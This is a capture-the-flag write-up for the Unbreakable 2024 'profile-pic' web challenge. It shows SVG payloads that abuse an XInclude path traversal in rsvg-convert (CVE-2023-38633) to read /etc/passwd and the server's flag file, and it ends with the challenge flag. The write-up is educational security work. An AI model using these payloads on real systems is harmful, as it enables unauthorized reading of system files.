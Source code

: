 ```yaml
---
title: profile-pic
date: 2024-04-07T12:50:30+03:00
description: Writeup for profile-pic [Unbreakable 2024]
type: writeup
author: H0N3YP0T
tags:
- web
draft: false
---
```

___

## Challenge Description

Can you change my profile picture in a hacker way?

Flag format: ctf{sha256sum}


## Intuition

The website is very simple with an upload feature. It means the attack vector is certainly a file upload vulnerability.
The server is PHP because I can add `index.php` at the end of the home page. We first thought about injecting php code, but
we finally looked at XXE upload chaining with the upload feature.

![img.png](/images/unbreakable_2024/profile.png)

Another hint about svg exploit was that the file was renamed and retyped to `png` after upload therefore it was obvious
that we had to exploit something else than php.

![img.png](/images/unbreakable_2024/png.png)

## Solution

The first step is to bypass the length check of the image. We can do this by changing the content-type of the image to `text/xml` and then upload a simple XML file.
![img.png](/images/unbreakable_2024/size.png)

![img.png](/images/unbreakable_2024/error.png)

The correct size is actually 50x50px. We can bypass this as follows:

```xml
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
</svg>
```
The next step was to try to read source code or run commands using `expect://` or `file://` but it didn't work.
We noticed the error message above about the size and library `rsvg-convert` so we looked for recent exploits and 
found [this one](https://secalerts.co/vulnerability/CVE-2023-38633) therefore we tried to exploit it.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
    <rect width="50" height="50" style="fill:rgb(255,255,255);" />
    <text x="10" y="10">
        <xi:include href=".?../../../../../../../etc/passwd" parse="text" encoding="UTF-8">
            <xi:fallback>file not found</xi:fallback>
        </xi:include>
    </text>
</svg>
```

![img.png](/images/unbreakable_2024/passwd.png)

We got it something ! Now it is time to read the flag file. And after enumerating some default paths for Apache server,
we found the flag in `/var/www/html/flag.php`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg width="50" height="50" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="50" height="50" style="fill:rgb(255,255,255);" />
  <text x="-610" y="25">
    <xi:include href=".?../../../../../../../var/www/html/flag.php" parse="text" encoding="UTF-8">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```
![img.png](/images/unbreakable_2024/flag.png)

The last step is to play with the following param `<text x="-610"` in order to read the flag.

### Flag

`CTF{af0a742b17dd73ca3d8ff27c885350a890c4ab104670fa3373de63c7709925b0}`

## Acknowledge

This writeup was co-authored by [sunbather](https://github.com/costinteo), [Koyossu](https://github.com/SecioreanuStefanita) and [H0N3YP0T](https://github.com/Mathis-Dory).

